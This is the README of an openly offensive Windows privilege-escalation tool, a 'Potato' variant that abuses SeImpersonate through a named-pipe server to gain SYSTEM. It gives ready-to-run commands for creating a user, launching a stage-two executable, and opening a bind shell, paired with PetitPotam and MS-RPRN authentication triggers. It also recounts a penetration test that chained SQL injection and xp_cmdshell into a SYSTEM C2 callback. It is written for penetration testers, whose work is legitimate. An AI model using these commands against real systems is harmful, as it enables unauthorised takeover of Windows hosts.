 # ManualPotato

First of all - credit to [@splinter_code](https://twitter.com/splinter_code) & [@decoder_it](https://twitter.com/decoder_it) for [RoguePotato](https://github.com/antonioCoco/RoguePotato) as this code heavily bases on it.

This is just another Potato to get SYSTEM via SeImpersonate privileges. But this one is different in terms of 

* ### It doesn't contain any SYSTEM auth trigger for weaponization. Instead the code can be used to integrate your favorite trigger by yourself.
* ### It's not only using `CreateProcessWithTokenW` to spawn a new process. Instead you can choose between `CreateProcessWithTokenW`, `CreateProcessAsUserW`, `CreateUser` and `BindShell`.

So this project is able to open up a NamedPipe Server, impersonate any user connecting to it and afterwards doing the users option mentioned above. If any new SYSTEM auth triggers are published in the future this tool can still be used to elevate privileges - you just need to use another Pipe-Name in this case.

Examples:

1. CreateUser with modified PetitPotam trigger:

```
c:\temp\MultiPotato> MultiPotato.exe -t CreateUser
```

You have by default values 30 secconds (changable via [THEAD_TIMEOUT](https://github.com/S3cur3Th1sSh1t/MultiPotato/blob/main/Multipotato/common.h) afterwards to let the SYSTEM account or any other account authenticate. This can be done for example via an unpatched MS-EFSRPC function for example. By default MultiPotato listens on the pipename `\\.\pipe\pwned/pipe/srvsvc` which can be used in combination with MS-EFSRPC perfectly fine. For other SYSTEM auth triggers you can adjust this value via parameter.

```
c:\temp\MultiPotato> PetitPotamModified.exe localhost/pipe/pwned localhost
``` 

Using `PetitPotam.py` as trigger from a remote system with a valid low privileged user is of course also possible.

![alt text](https://raw.githubusercontent.com/S3cur3Th1sSh1t/MultiPotato/master/Images/CreateUser.PNG)

2. CreateProcessAsUserW with SpoolSample trigger:

```
c:\temp\MultiPotato> MultiPotato.exe -t CreateProcessAsUserW -p "pwned\pipe\spoolss" -e "C:\temp\stage2.exe"
```

And trigger it via

```
c:\temp\MultiPotato>MS-RPRN.exe \\192.168.100.150 \\192.168.100.150/pipe/pwned
```

![alt text](https://raw.githubusercontent.com/S3cur3Th1sSh1t/MultiPotato/master/Images/CreateProcessAsUserW.PNG)

Important: In my testings for MS-RPRN I could not use localhost or 127.0.0.1 as target, this has to be the network IP-Adress or FQDN. In addition the Printer Service needs to be enabled for this to work.


3. BindShell

```
c:\temp\MultiPotato> MultiPotato.exe -t BindShell -p "pwned\pipe\spoolss"
```

To trigger for this pipe MS-RPRN can be used again.

## Why??

I recently had a penetrationtest, where I was able to pwn a MSSQL Server via SQL-Injection and XP_CMDShell. But all public Potatoes failed on this target system to elevate privileges from service-account to SYSTEM. The System auth trigger was not the problem - instead `CreateProcessWithTokenW` failed all the time with NTSTATUS Code 5 - access forbidden. This doesn't really makes sense and may be an edge case but one reason for that `could be` the local endpoint protection which may have blocked this.

Therefore I searched for alternatives - and asked some people on Twitter about it. Again Credit to [@splinter_code](https://twitter.com/splinter_code) for explaining me how to do it via `CreateProcessAsUserW` which worked fine on the pwned MSSQL server to get a SYSTEM C2-Callback.
